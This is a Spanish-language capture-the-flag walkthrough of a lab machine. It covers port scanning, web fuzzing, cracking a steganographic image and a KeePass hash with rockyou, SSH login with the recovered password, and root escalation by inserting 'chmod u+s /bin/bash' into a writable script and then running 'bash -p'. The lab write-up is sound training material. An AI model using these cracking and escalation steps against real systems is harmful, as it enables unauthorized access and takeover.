Primero haremos un escaneo de la ip víctima para ver que servicios están corriendo en los puertos abiertos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Vemos que tiene el puerto 80 con una web asociada, entonces vamos a ver que esconde.


Vemos que nos muestra la pagina por defecto de apache en una máquina ubuntu. Vamos a realizar un fuzzing de la web para ver si esconde algo más.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```


Vemos que nos muestra un título de un html que pueder responder como el nombre de la potencial página a vulnerar.


Tras analizar la web con detalle, no he encontrado más información por donde tirar, asi que he pensado que me podia descargar la imagen y analizarla con más detalle.
```
stegseek penguin.jpg /usr/share/wordlists/rockyou.txt -xf img
```


Vemos que nos da un archivo .kdbx que es un cifrado, aparte nos da una parssword que es para descifrar el archivo. Primero habrá que extraer este archivo.
```
steghide --extract -sf penguin.jpg -p chocolate
```


Vemos que se nos ha generado el archivo, seguidamente, vamos a expraer el hash.
```
keepass2john penguin.kdbx > hash
```


Una vez tenemos el hash, vamos a descifrarlo.
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```


Una vez tenemos la contraseña del archivo cifrado, vaomos a abrir el archivo.
```
keepass2 penguin.kdbx
```








Una vez obtenida la contraseña del uduario penguin, podemos acceder por ssh.
```
ssh penguin@172.17.0.2
password: pinguinomaravilloso123
```


Una vez estamos dentro, vamos a intentar conseguir los máximos privileguios o el usurario root (administrador). Al ver que en la carpeta de usuario, nos daba dos archivos y uno de ellos era bash, miramos sus conenidos y permisos.
```
ls -l
cat archivo.txt
cat script.sh
```


Modificaremos el archivo script.sh para poder acceder a root.
```
#!/bin/bash

chmod u+s /bin/bash

echo 'pinguino no hackeable' > archivo.txt
```

Una vaez modificado ejecutaremos `ls -l /bin/bash` y finalmente nos generaremos una bash.
```
bash -p
whoami
```
